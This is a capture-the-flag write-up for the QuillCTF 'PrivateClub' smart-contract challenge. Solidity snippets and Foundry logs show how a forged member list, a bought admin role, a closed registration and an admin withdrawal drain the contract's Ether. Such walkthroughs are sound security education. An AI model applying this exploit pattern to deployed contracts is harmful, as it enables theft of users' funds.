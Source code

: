 # QuillCTF: PrivateClub Exploit

- [Challenge](https://academy.quillaudits.com/challenges/quillctf-challenges/private-club)
- Contract: [PrivateClub](../../src/QuillCTF/PrivateClub.sol)
- Exploit: [PrivateClubExploit](../../test/QuillCTF/PrivateClubExploit.t.sol)

The objective of the CTF was to become a member of the private club, to block future registrations and also to withdraw all Ether from the smart contract.

## Exploit

Anyone can become a member of the private club by triggering the `becomeMember()` function. It's even possible for an exploiter to craft a fake member list to avoid paying fees when registering by creating a fraudulent member list consisting solely of their own address. This way, the value sent with the transaction will be sent back to the exploiter. This vulnerability exists because the function does not verify the authenticity of the member list.

```java
// Become a member of the private club
address[] memory members = new address[](3);
members[0] = address(exploiter);
members[1] = address(exploiter);
members[2] = address(exploiter);
target.becomeMember{value: 3 ether}(members);
```

Once done, the exploiter only needs 10 Ether to become the new owner of the contract. With this level of ownership, the exploiter gains an excessive amount of power, enabling them to prevent others from registering and withdraw all of the funds.

```java
// Pay to become the new owner
target.buyAdminRole{value: 10 ether}(exploiter);
assertTrue(target.members(exploiter));
```

Now the exploiter can abuse their power and carry out any actions they desire.

```java
// Close the registration period: users won't be able to register anymore
target.setRegisterEndDate(block.timestamp - 1);

// Withdraw all the funds
target.adminWithdraw(exploiter, address(target).balance);
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=PrivateClub
Running 1 test for test/QuillCTF/PrivateClubExploit.t.sol:PrivateClubExploit
[PASS] testExploit() (gas: 158544)
Logs:
  Balances: target=100 ETH exploiter=20 ETH
  Become a member of the private club
  Balances: target=100 ETH exploiter=20 ETH
  Pay to become the new owner
  Balances: target=110 ETH exploiter=10 ETH
  Close the registration period
  User 3 tries to become a member without any success
  Withdraw all the funds
  Balances: target=0 ETH exploiter=120 ETH

Test result: ok. 1 passed; 0 failed; finished in 1.31ms
```
